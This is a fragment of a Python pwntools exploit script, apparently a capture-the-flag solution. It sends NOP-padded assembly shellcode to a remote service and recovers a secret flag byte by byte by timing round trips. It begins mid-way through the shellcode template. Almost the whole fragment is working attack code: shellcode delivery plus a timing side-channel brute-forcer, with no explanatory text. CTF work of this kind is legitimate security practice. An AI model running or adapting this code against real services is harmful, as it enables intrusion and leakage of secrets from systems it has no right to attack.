 ```Python
pause:
        dec     rcx
        jne     pause
wrong:
        xor     edi, edi            ; exit(0)
        mov     eax, 60
        syscall
    """
    sc = asm(asm_template)
    assert len(sc) <= 0x100, "shellcode too large"
    return sc.ljust(0x100, b"\x90")  # pad with NOPs to full read length


def send_probe(index: int, guess: int) -> float:
    """Send probe and return measured RTT in seconds (average of 3 samples)."""
    samples = []
    for _ in range(3):
        io = remote(HOST, PORT)
        # sync – wait for banner & prompt
        io.recvuntil(b"Please input your shellcode")
        io.recvline()  # consume trailing newline, if any
        payload = make_probe_sc(index, guess)
        start = time.perf_counter()
        io.send(payload)
        try:
            io.shutdown("send")  # EOF -> let target finish
        except OSError:
            pass
        try:
            io.clean(timeout=0.10)  # drain any leftover output quickly
        except EOFError:
            pass
        elapsed = time.perf_counter() - start
        io.close()
        samples.append(elapsed)
    return statistics.mean(samples)


def brute():
    printable = list(range(32, 127))  # space..~
    flag = bytearray()
    idx  = 0
    while True:
        base = send_probe(idx, 0)  # definitely wrong byte → baseline RTT
        found = False
        for g in printable:
            t = send_probe(idx, g)
            if t - base > 0.015:   # threshold: tune if network chilliest
                flag.append(g)
                print(f"[+] flag[{idx}] = {chr(g)} (Δ {t - base:.3f}s)")
                idx  += 1
                found = True
                break
        if not found:
            break  # reached ‘}’ or probe failed – stop
    print("\n[!] FLAG =", flag.decode(errors="ignore"))

if __name__ == "__main__":
    brute()
```
